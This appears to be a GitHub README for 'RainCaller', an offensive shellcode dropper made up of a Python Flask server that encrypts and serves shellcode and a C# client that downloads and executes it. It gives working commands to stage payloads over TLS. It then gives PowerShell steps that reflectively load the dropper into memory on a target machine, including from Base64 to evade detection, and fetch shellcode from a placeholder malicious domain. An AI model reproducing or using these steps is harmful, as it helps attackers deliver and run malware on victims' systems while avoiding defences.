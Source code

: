 # RainCaller
**RainCaller** is a shellcode dropper suite consisting of a *Python3* webserver (server) and a *C#* dropper (client).

***

## Server
The server is located in the */Server* folder.

### Installation
The server-side part of **RainCaller** has some *Python3* dependencies noted down in the `requirements.txt` file. These can be installed with *pip3*:
```
tester@dev:~$ pip3 install -r requirements.txt
Collecting Flask
  Downloading Flask-2.0.1-py3-none-any.whl (94 kB)
     |████████████████████████████████| 94 kB 1.0 MB/s 
  ...
```

### Usage
```
tester@dev:~$ python3 main.py

██████╗  █████╗ ██╗███╗   ██╗ ██████╗ █████╗ ██╗     ██╗     ███████╗██████╗ 
██╔══██╗██╔══██╗██║████╗  ██║██╔════╝██╔══██╗██║     ██║     ██╔════╝██╔══██╗
██████╔╝███████║██║██╔██╗ ██║██║     ███████║██║     ██║     █████╗  ██████╔╝
██╔══██╗██╔══██║██║██║╚██╗██║██║     ██╔══██║██║     ██║     ██╔══╝  ██╔══██╗
██║  ██║██║  ██║██║██║ ╚████║╚██████╗██║  ██║███████╗███████╗███████╗██║  ██║
╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝  ╚═══╝ ╚═════╝╚═╝  ╚═╝╚══════╝╚══════╝╚══════╝╚═╝  ╚═╝
                                @v1.1                                                                                                                       
    
usage: main.py [-h] -a ADDRESS -p PORT -u URI -f FILE -k KEY [--ssl_key SSL_KEY] [--ssl_crt SSL_CRT]
main.py: error: the following arguments are required: -a/--address, -p/--port, -u/--uri, -f/--file, -k/--key
```
| Argument      | Description |
| -----------   | ----------- |
| ADDRESS       | What address to listen on (`0.0.0.0`, `127.0.0.1` ...)                      |
| PORT          | What port to listen on                                                      |
| URI           | What URI should the shellcode be retrievable from                           |
| FILE          | Path to a file containing unencrypted shellcode in a binary format          |
| KEY           | Key used to RC4 encrypt the shellcode obtained from the FILE parameter      |
| SSL_KEY       | Optional path to an SSL key (PEM format) if TLS/SSL is to be used           |
| SSL_CRT       | Optional path to an SSL certificate (PEM format) if TLS/SSL is to be used   |

### Example
```
tester@dev:~$ sudo python3 main.py -a 0.0.0.0 -p 443 -u /download -f calc_x64_sc.bin -k HelloWorld --ssl_key key.pem --ssl_crt cert.pem

██████╗  █████╗ ██╗███╗   ██╗ ██████╗ █████╗ ██╗     ██╗     ███████╗██████╗ 
██╔══██╗██╔══██╗██║████╗  ██║██╔════╝██╔══██╗██║     ██║     ██╔════╝██╔══██╗
██████╔╝███████║██║██╔██╗ ██║██║     ███████║██║     ██║     █████╗  ██████╔╝
██╔══██╗██╔══██║██║██║╚██╗██║██║     ██╔══██║██║     ██║     ██╔══╝  ██╔══██╗
██║  ██║██║  ██║██║██║ ╚████║╚██████╗██║  ██║███████╗███████╗███████╗██║  ██║
╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝  ╚═══╝ ╚═════╝╚═╝  ╚═╝╚══════╝╚══════╝╚══════╝╚═╝  ╚═╝
                                @v1.1                                                                                                                         
    
[*]> Starting the server thread...
 * Serving Flask app 'main' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
[+]> Done.
...
```
In other words, start a listener on the global interface on port `443`. Read shellcode from the `calc_x64_sc.bin` file, encrypt it with the string `HelloWorld` and serve it on the `/download` URI. Use the optional SSL/TLS configuration where `key.pem` and `cert.pem` are valid paths to the corresponding TLS/SSL files.

***

## Client
The client is located in the */Client* folder. To compile the client, open the solution in *Visual Studio* and target the release build against `.NET Framework 4.0` or `.NET Framework 4.5`.

### Usage (Normal)
```
C:\Users\Public\Documents\>RainCaller.exe
RainCaller.exe <uri> <enc_key>
```
| Argument      | Description |
| -----------   | ----------- |
| uri           | URL to the remote endpoint which serves the shellcode            |
| enc_key       | Key which the shellcode was encrypted with (used for decryption) |


### Usage (Reflection)
**RainCaller** can be easily reflected into memory:
```
PS C:\Users\tester> [System.Reflection.Assembly]::LoadFile("C:\Users\tester\RainCaller.exe")

GAC    Version        Location
---    -------        --------
False  v4.0.30319     C:\Users\tester\RainCaller.exe

PS C:\Users\tester> [RainCaller.RainCaller]::Drop("hxxps://maldomain.local/shellcode", "shellcodeEncKey")
```
Alternatively, one can Base64 encode (or obfuscate / encrypt) the binary on a local machine:
```
PS C:\Users\tester> $dll = [System.IO.File]::ReadAllBytes("C:\Users\tester\RainCaller.exe")
PS C:\Users\tester> [System.Convert]::ToBase64String($dll)
TVqQAAMAAAAEAAAA//8AA...
```
And afterwards load it on a target machine in the following way:
```
PS C:\Users\tester> [System.Reflection.Assembly]::Load([System.Convert]::FromBase64String("TVqQAAMAAAAEAAAA//8AA..."))

GAC    Version        Location
---    -------        --------
False  v4.0.30319     

PS C:\Users\tester> [RainCaller.RainCaller]::Drop("hxxps://maldomain.local/shellcode", "shellcodeEncKey")
```